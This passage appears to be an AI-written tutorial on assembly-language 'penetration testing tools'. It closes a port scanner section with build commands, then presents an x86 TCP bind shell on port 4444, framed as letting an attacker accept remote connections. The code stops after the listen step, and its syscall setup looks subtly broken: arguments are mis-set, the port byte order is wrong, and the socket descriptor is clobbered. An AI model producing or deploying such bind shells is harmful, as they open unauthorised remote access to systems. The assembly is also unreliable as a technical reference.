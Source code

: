To use this port scanner, replace the `ip_address` variable with the IP address of the target system. You can also modify the `port_range` variable to define the range of ports you want to scan.

To assemble and link the code, you can use the following commands:

```bash
nasm -f elf32 port_scanner.asm -o port_scanner.o
ld -m elf_i386 port_scanner.o -o port_scanner
```

After assembling and linking, you can run the program:

```bash
./port_scanner
```

Keep in mind that this is a basic example, and real-world port scanners are much more complex, with features like multithreading, timeout handling, and service identification. Nonetheless, writing such tools in assembly can provide valuable insights into low-level networking and system programming.

Certainly! Let's explore another example of creating a penetration testing tool in assembly language. We'll implement a basic TCP bind shell, which allows an attacker to listen on a specific port and wait for connections from remote hosts. Below is an example of a TCP bind shell implemented in x86 assembly:

```assembly
section .data
    port        equ 4444          ; Port number to listen on

section .text
    global _start

_start:
    ; Create socket (socket syscall)
    xor eax, eax                 ; Clear eax register
    mov al, 0x66                 ; Socket syscall number
    xor ebx, ebx                 ; Clear ebx register
    mov bl, 0x1                  ; Set ebx to 1 (SOCK_STREAM)
    push ebx                     ; Push SOCK_STREAM onto the stack
    pop ecx                      ; Pop SOCK_STREAM into ecx
    xor edx, edx                 ; Clear edx register
    mov dx, 0x2                  ; Set dx to 2 (AF_INET)
    push edx                     ; Push AF_INET onto the stack
    pop esi                      ; Pop AF_INET into esi
    int 0x80                     ; Call kernel

    ; Bind socket to specified port (bind syscall)
    mov ebx, eax                 ; Copy sockfd to ebx
    xor eax, eax                 ; Clear eax register
    mov al, 0x66                 ; Bind syscall number
    xor edx, edx                 ; Clear edx register
    push edx                     ; Push 0 onto the stack (INADDR_ANY)
    push word port               ; Push port number onto the stack
    push esi                     ; Push AF_INET onto the stack
    mov ecx, esp                 ; Move stack pointer to ecx
    push 0x10                    ; Push sockaddr_in struct size onto the stack
    push ecx                     ; Push pointer to sockaddr_in struct onto the stack
    push ebx                     ; Push sockfd onto the stack
    mov ecx, esp                 ; Move stack pointer to ecx
    int 0x80                     ; Call kernel

    ; Listen for incoming connections (listen syscall)
    mov al, 0x66                 ; Listen syscall number
    mov bl, 0x5                  ; Set bl to 5 (listen)
    push ebx                     ; Push 5 onto the stack (backlog)
    push ebx                     ; Push sockfd onto the stack
    mov ecx, esp                 ; Move stack pointer to ecx
    int 0x80                     ; Call kernel
```